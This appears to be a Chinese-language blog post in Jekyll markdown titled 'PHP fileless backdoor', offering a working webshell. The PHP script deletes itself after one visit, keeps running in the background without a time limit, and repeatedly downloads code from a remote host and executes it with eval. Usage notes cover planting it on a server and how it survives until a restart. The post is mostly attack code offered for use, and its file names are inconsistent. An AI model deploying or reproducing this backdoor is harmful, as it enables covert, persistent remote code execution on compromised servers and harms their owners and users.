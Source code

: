 ```yaml
---
layout: post
category: webshell
tags: webshell
title1: php无文件后门
keywords: php无文件后门
description: 将 webshel.php 传到服务器之后访问一次他会自删除。但，依然会在后台执行 webshell.txt 中的代码。
---
```


### webshell.php

    <?php
    unlink($_SERVER['SCRIPT_FILENAME']);
    ignore_user_abort(true);
    set_time_limit(0);

    $remote_file = 'http://xsser.me/webshel.txt';
    while($code = file_get_contents($remote_file)){
    @eval($code);
    sleep(5);
    };
    ?>
  
### webshell.txt

    file_put_contents('1.txt','hello world '.time());

### 使用方式

将 webshel.php 传到服务器之后访问一次他会自删除。但，依然会在后台执行 eval.txt 中的代码

### 停止执行

删除或清空 webshel.txt。

### 缺点

服务器或WEB容器一重启后门就没了。